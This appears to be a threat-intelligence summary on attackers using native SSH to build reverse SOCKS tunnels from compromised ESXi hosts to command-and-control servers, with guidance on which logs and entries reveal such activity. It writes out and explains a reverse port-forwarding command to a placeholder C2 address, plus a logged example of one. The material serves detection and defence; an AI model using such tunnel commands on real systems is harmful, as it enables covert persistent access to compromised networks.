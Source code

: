 Attackers often use "living-off-the-land" techniques and native tools like SSH to establish SOCKS tunnels between their command and control (C2) servers and the compromised environment to blend into legitimate traffic. ESXi appliances are often compromised by using administrative credentials or exploiting known vulnerabilities. Attackers can set up tunnels using the native SSH functionality or by deploying other common tooling. A remote port-forwarding to the C2 server can be easily setup by using a command like `ssh –fN -R 127.0.0.1: <port> @<C2_IP>`.
The logging mechanism in ESXi appliances distributes log entries across multiple files, which complicates investigations.

* **SSH tunneling persistence**
![alt text](<images/The Feed 2025-01-23_ESXi Ransomware Attacks Evolution, Impact, and Defense Strategy_2.png>)

*   The attackers establish a SOCKS tunnel between their Command and Control (C2) servers and the compromised environment.
*   This tunnel allows them to blend in with legitimate traffic, making their activities harder to detect by security controls.
*   The attackers can set up a remote port-forwarding to their C2 server using a command such as `ssh –fN -R 127.0.0.1: <port> @<C2_IP>`. This command forwards a local port on the compromised ESXi host to a port on the attacker’s C2 server. The `-fN` options run SSH in the background and without executing a remote command. The `-R` option forwards the specified port to the attacker's machine.

**Persistence Mechanism:**
*   ESXi appliances are typically resilient and rarely shut down unexpectedly, making them an ideal location for a persistent backdoor.
*   Once the SSH tunnel is established, the attacker can use it to access other parts of the network as needed. This allows them to maintain access to the compromised environment and carry out malicious activities at their convenience.

**Evading Detection:**
*   The use of native tools like SSH allows the attackers to operate with minimal detection.
*   ESXi infrastructure is often not monitored, which enables threat actors to conduct their operations without being detected by security controls.
*   Because the traffic is tunneled it is difficult to detect using normal network monitoring methods, as it appears to be a normal SSH connection from the appliance.

**Logging:**
*   ESXi logging mechanisms distribute log entries across multiple files, making it difficult to aggregate all relevant information for forensic investigations. Log files that are useful in detecting SSH tunneling are  `/var/log/shell.log`, `/var/log/hostd.log`, `/var/log/auth.log`, and `/var/log/vobd.log`.
*   Attackers may also attempt to encrypt or delete logs to conceal their activity, which makes maintaining immutable backups of logs that are sent to a SIEM essential.
*   Key logs to monitor include the vCenter ‘vpxd.log’ and the ESXi ‘hostd.log’, and specific log entries including `SSH access has been enabled`, log entries about firewall rules changes or tasks related to user creation or privilege assignment can indicate malicious activity.
*   The command `ssh -fN -R 127.0.0.1:48000 support@192.168.134.130` in the `shell.log` indicates an SSH port forwarding attempt.
